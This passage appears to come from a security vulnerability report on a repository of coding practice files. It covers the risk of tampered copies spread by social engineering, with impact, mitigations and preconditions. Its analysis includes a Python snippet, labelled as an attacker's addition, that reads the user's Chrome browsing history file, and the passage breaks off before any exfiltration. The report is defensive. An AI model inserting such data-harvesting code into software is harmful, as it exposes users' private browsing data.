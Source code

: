 **Impact:** Complete compromise of the learner's local machine, potentially leading to:
- **Data Theft:** Malicious code can access and exfiltrate sensitive information stored on the learner's computer, including personal files, login credentials, and browser history.
- **Malware Installation:** Attackers can install various types of malware, such as viruses, trojans, ransomware, or spyware, to gain persistent access, disrupt operations, or extort the learner.
- **System Takeover:** In severe cases, attackers can gain complete and persistent control over the learner's system, allowing them to perform any action as the compromised user, including further network attacks.

**Vulnerability Rank:** High

**Currently Implemented Mitigations:** None. The project, being a collection of practice files, does not inherently implement security measures to prevent users from downloading and executing modified files from untrusted sources. While the official repository is hosted on a trusted platform (GitHub), there are no mechanisms in place to verify the integrity of downloaded files or warn users about the risks of obtaining files from unofficial sources.

**Missing Mitigations:**
- **Security Awareness Guidance:** Include clear, prominent, and repeated warnings in the README, course materials, and throughout the repository about the dangers of downloading and executing code from untrusted sources. Emphasize that learners should only download practice files from the official repository and to be extremely cautious of files obtained from anywhere else.
- **Integrity Checks:** Provide mechanisms for learners to verify the integrity of downloaded practice files from the official repository. This could include providing checksums (like SHA-256 hashes) for each file, allowing learners to compare the checksum of their downloaded file against the official checksum.
- **Code Signing (Advanced):** For more advanced mitigation, consider digitally signing the practice files. This would allow learners with appropriate tools to cryptographically verify the authenticity and integrity of the files before execution, ensuring they have not been tampered with.
- **Sandboxed Execution Environment Recommendation:** Encourage learners to execute practice scripts in a safe, isolated environment, such as a virtual machine (VM) or a container. This would limit the potential damage if a malicious script were to be executed.

**Preconditions:**
- An attacker must successfully create a modified version of a legitimate practice file and embed malicious code within it.
- The attacker must distribute this malicious file through untrusted channels and employ social engineering techniques to deceive learners into downloading it.
- A learner must be successfully tricked into downloading and executing the modified practice file, believing it to be a safe and official learning resource.
- The learner must have Python (or the relevant interpreter for the practice file's language) installed on their local machine to execute the script.

**Source Code Analysis:**
The vulnerability does not reside in the original, legitimate code within the repository itself. Instead, it arises from the potential for malicious modification and distribution of these files. Consider the original `hello_cloud.py` example. An attacker could modify this file to include malicious Python code, such as the following example of adding code to exfiltrate browser history (simplified example for Chrome on Linux):

```python
#!/usr/bin/env python3
# ... (rest of the original hello_cloud.py code) ...
import os
import json

class Handler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        # ... (rest of the original do_GET method) ...

        # Malicious code added by attacker: Attempt to read browser history
        try:
            history_path = os.path.expanduser("~/.config/google-chrome/Default/History")
            if os.path.exists(history_path):
                with open(history_path, "r", encoding="utf-8", errors="ignore") as f:
                    history_data = f.read()
```
